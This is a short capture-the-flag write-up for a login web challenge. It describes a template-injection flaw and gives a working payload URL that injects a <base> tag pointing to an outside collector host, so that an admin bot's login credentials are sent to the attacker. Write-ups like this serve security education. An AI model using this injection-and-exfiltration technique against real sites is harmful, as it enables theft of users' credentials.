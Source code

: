 # brokenlogin

![Oops](./images/description.png)

This is a simple login web application. By inspecting the source code [app.py](./source/app.py), we can see that it has an SSTI vulnerability through `custom_message` because of the use of `render_template_string`. 

In the [bot](./source/brokenlogin.js) source code, we can see that the bot only accesses to the page and then submits the admin's username and password. Additionally, the admin's password is the flag.

My idea is use `custom_message` to inject `<base>` tag into HTML document, and then provide the modified link to the admin. By logging in, the admin's credential will be leaked.
```URL
https://brokenlogin.web.actf.co/?message={{request.args.l|safe}}&l=%3Cbase%20href=%22https://ybck7ges.requestrepo.com%22%3E
```

The HTML document will be
![Oops](./images/html.png)

Send that URL to the admin bot and get the flag.
![Oops](./images/result.png)